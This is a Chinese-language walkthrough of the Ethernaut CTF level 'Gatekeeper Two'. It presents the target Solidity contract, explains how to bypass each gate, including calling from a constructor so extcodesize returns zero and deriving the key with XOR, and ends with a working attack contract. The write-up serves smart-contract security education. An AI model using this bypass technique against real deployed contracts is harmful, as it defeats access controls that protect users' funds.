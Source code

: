 # Gatekeeper Two
Gatekeeper Two這一關需要我們成爲合約中的entrant，和Gatekeeper一樣，也是一個非常考驗綜合知識的一關，但會稍微簡單一點，讓我們看一下代碼。

## 合约代碼
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```
## 代碼分析
要成功通過這一關，我們也是需要通過三個modifier，分別是gateOne, gateTwo, gateThree。

### gateOne
gateOne的要求很簡單，需要msg.sender和tx.origin不同。這個我們在Gatekeeper One中也有相同的要求，這裏不再贅述。

### gateTwo
gateTwo涉及到assembly的知識。Solidity中定義了一種匯編語言Yul，可以和不同的Solidity共同使用，這裏不做詳細的介紹，有興趣的同學可以看[官方文檔](https://docs.soliditylang.org/en/v0.8.17/assembly.html?highlight=extcodesize#example)。這是一種内聯匯編語言，即可以直接嵌入Solidity的源碼使用。簡單來説語法就是使用`assembly{}`包裹起來。

`assembly`在我們的例子中定義了一個`x := extcodesize(caller())`。并且對`x`是否為0進行檢查。`extcodesize`是EVM中的一個操作碼，返回的地址的code size,或者跟具體的來説是runtime bytes。對於一個EOA來説，其code size為0，而對於合約而言，其code size不為0。所以這裏的檢查就是檢查msg.sender是否為合約地址。這裏就和gateOne相互產生矛盾了，因爲在gateOne中我們需要創建一個合約來調用enter函數來保證msg.sender和tx.origin不同。

但是這樣檢查EOA的方式是有漏洞的，因爲extcodesize并不會對creation bytes進行檢查，所以只要我們將我們的邏輯寫在合約的constructor中，即使是合約，extcodesize返回的值也是0。

### gateThree
gateThree要求`uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max`，其中`^`是Bitwise XOR(異或)運算符，假設`a = bytes8(keccak256(abi.encodePacked(msg.sender)))`, `b = gateKey`, `c = type(uint64).max`，那麽這個表達式可以簡化為 `a^b = c`，根據XOR運算規則，如果`a^b = c`,那麽`a^c = b`，所以我們可以通過`a^c`來獲取`b`，這裏的`a`是一個固定的值，`c`也是固定值，那麽我們就可以求出gateKey的值。


## 攻擊代碼
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);    
}

contract Attack {

    constructor(address _target) {
        IGatekeeperTwo target = IGatekeeperTwo(_target);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ type(uint64).max);
        target.enter(key);
    }
}
```
## 攻擊過程
1. 部署攻擊合約，並且傳入GatekeeperTwo的地址，完成任務。



